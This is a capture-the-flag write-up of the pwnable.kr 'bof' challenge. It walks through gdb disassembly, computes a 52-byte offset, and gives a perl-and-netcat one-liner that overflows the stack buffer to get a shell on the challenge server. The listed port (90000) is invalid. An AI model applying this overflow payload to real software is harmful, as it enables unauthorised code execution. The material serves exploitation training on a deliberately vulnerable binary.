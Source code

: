 ## Bof

| Level | Points |
| ----- | ------ |
| Easy | 5 |

> Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

#### Solution

Open `./bof` with `gdb` debugger then see

```
(gdb) disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   %ebp
   0x0000062d <+1>:	mov    %esp,%ebp
   0x0000062f <+3>:	sub    $0x48,%esp
   0x00000632 <+6>:	mov    %gs:0x14,%eax
   0x00000638 <+12>:	mov    %eax,-0xc(%ebp)
   0x0000063b <+15>:	xor    %eax,%eax
   0x0000063d <+17>:	movl   $0x78c,(%esp)
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    -0x2c(%ebp),%eax
   0x0000064c <+32>:	mov    %eax,(%esp)
   0x0000064f <+35>:	call   0x650 <func+36>
   0x00000654 <+40>:	cmpl   $0xcafebabe,0x8(%ebp)
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	movl   $0x79b,(%esp)
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	movl   $0x7a3,(%esp)
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    -0xc(%ebp),%eax
   0x0000067a <+78>:	xor    %gs:0x14,%eax
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
```

Inline `<func+40>` and see the hex `0xcafebabe` is compared to `0x8(%esp)`, we can guest `0xdeadbeef` would be placed in `$ebp+0x8`. Let's see:

```
(gdb) b *func+40
Breakpoint 1 at 0x654
```
```
(gdb) x $ebp+0x8
0xffffcee0:	0xdeadbeef
```

Inline `<func+29>`, we see program loads the effective address `%ebp-0x2c` into `%eax`, maybe the variable `overflowme` is stored in `%ebp-0x2c`. Let's see:

```
(gdb) b gets
Breakpoint 2 at 0xf7e623b6
```
```
(gdb) r
Starting program: /home/traioi/bof 

Breakpoint 2, 0xf7e623b6 in gets () from /lib32/libc.so.6
```
```
(gdb) n
Single stepping until exit from function gets,
which has no line number information.
traioi

Breakpoint 1, 0x56555654 in func ()
```
```
(gdb) x/1s $ebp-0x2c
0xffffceac:	"traioi"
```

Now we have
```
0xffffcee0:	0xdeadbeef
0xffffceac:	"traioi"
```

Let’s calculate the offset between the two addresses 
```
perl -e 'print 0xffffcee0 - 0xffffceac;'
52
```
So two address have 52 bytes and we can get flag with
```
(perl -e 'print "a"x52 . "\xbe\xba\xfe\xca";'; cat - ) | nc pwnable.kr 90000
cat flag
```

